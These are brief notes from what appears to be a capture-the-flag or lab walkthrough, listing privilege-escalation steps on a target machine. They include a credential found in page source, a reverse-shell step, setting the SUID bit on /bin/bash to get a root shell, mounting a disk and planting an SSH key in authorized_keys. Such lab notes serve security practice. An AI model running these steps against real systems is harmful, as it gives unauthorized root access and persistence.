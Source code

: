 on port 80 -> admin:niceWorkHackerm4n

then on shell use python3 revshell

then change to admin user using ssh admin@localhost -t "bash --noprofile"

change PATH \\"export PATH=$PATH:/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:."

then use sudo chmod +s /bin/bash && /bin/bash -p

then fdisk -l to list mounts

then mount it with sudo mount /dev/xvda1 /mnt

then use .ssh/authorized_keys to gain access (yet to figure out how to use it)

    (phoenix/.ssh/id_rsa.pub) append to local authorized_keys then try to ssh into that account

then just sudo to root
